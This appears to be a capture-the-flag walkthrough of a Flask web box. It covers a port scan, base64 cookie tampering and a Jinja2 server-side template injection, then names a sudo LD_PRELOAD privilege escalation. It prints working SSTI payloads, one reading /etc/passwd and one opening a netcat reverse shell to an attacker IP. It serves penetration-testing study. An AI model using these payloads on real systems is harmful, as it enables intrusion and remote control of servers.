# Port Scanning
```bash
❯ rustscan -a 10.82.132.8 -- -A

Open 10.82.132.8:22
Open 10.82.132.8:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:7a:1b:f5:c4:b5:fb:d0:9f:56:0b:f0:ec:f0:8a:9e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDGAWOBzzKi92kp5vjZ5D6Xg76WkjvCcn3BGPWIJ02hgQU2516e0l2YaOCbtvnDxuPjq1yeTU8dzS93kdicEacya026Da1AIsLp65JgyrBPlQbg33AQM3buYgNkoshfwqrPGtTVtSZsrXsF4wQpQ9QF2sNrOsGjTUUdE20WEwLEMKgOUR2fJhTMbEimtEp3xBwJeIRZl8/J/B8VsjbqC1iOhKfesEWu4Oh87D/R3Aihu+IZRUsqO+KHxLL0O+D4Ksai5eXVLMxeFfP1PQO9WaHDBDApIKegs8T410awKKQjnhTWumeTMQ0fBoz54XwIsxnzwPX35zfECIg1CZOCEY7fqvw9GTQPQG9Hos2mlbj+VvXM3W1cLjRm5WJ2a3L2dGYy1urnLXrNmW+G7Oey/GYF9PhN8ojb4jFke25DP3sN3oYv1dTTq0vlDMaLV04tFWYv37+9AHydsYUFyAaEsbYHQ2V+qSNLw+JQsrojFCOgkbYnUtIFRuPduOOHSuG3vZE=
|   256 bd:d9:88:8e:8c:48:f5:bc:9d:2e:8f:e2:21:4d:cc:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzgZOvKpXXWO5cw70zgKA+cs1MwY5RfNN9Nc4ReHX5ExpapIr3ldJUlmfD/Y5V8HoiesuZLCxo4ksPTES1g1ds=
|   256 15:1a:5b:ac:68:e7:d3:12:17:ba:23:b6:80:32:0a:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHYEyNpRaMZfe4kFY4TKRxSqvKYtWN8S5ROrAgs6jrhO
80/tcp open  http    syn-ack ttl 62 Werkzeug httpd 3.0.6 (Python 3.8.10)
| http-cookie-flags: 
|   /: 
|     session: 
|_      httponly flag not set
|_http-title:  Home page 
|_http-server-header: Werkzeug/3.0.6 Python/3.8.10
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Adtran embedded (92%), Google Android 10.X|11.X|9.X (92%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/h:adtran:424rg cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:9
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 5.4 - 5.15 (95%), Linux 4.15 (94%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
```
Visiting the website I found the following. <br/>
 <br/>
Visited all the given page, but found nothing. At the `Buy Gold` section I have found `Admin` section that is not accessible. <br/>
 <br/>
Looking at the technology found that it is a flask application. <br/>
 <br/>
Looking at the cookie I found: <br/>
 <br/>
Using cyberchef I decrypted the cookie. <br/>
 <br/>
Then change it to admin and again visited the page. But came out nothing. After trying a lot I found that encoded only one time works. <br/>
 <br/>
 <br/>
But not much change. So check the packages using burpsuite  <br/>
 <br/>
And found another interesting `sales` in the cookie section. It was also one time base64 encoded. So at first I tried for SSTI (As a flask application and also rendering numerical value). Common payload `{{7*7}}` to base64 encoded. <br/>
 <br/>
And send it. <br/>
 <br/>
And found the vulnerability. After some researching and testing I found that it is a `Jinja2` template (Also a python framework is running) <br/>
Using the following payload I get `/etc/passwd`
```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
 <br/>
After checking with many payloads, the following helped me to get reverse shell. <br/>
```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker_ip> 4545 >/tmp/f").read()}}
```
 <br/>
 <br/>
User's home directory and flag. <br/>
 <br/>
# Privilege Escalation
Running the command `sudo -l`, found: <br/>
 <br/>
`env_keep=LD_PRELOAD` and `/bin/ps` with `NOPASSWD`. <br/>
So exploited it and became ROOT! <br/>
 <br/>
 <br/>
